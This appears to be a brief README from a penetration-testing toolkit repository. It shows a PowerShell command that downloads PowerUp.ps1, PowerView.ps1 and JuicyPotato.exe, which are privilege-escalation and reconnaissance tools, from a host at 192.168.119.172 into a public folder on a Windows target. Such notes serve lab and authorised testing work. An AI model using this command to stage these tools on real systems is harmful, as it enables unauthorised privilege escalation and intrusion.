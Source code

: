 # allmix

## LISTS

# MultiFileDownload.ps1
 if on cmd type powershell
 .\MultiFileDownload.ps1 -HostUrl "http://192.168.119.172:8080" -FileNames "PowerUp.ps1", "PowerView.ps1", "JuicyPotato.exe" -Destination "C:\Users\Public\"

# powerup.ps1 
Updated and working well without any issue. 
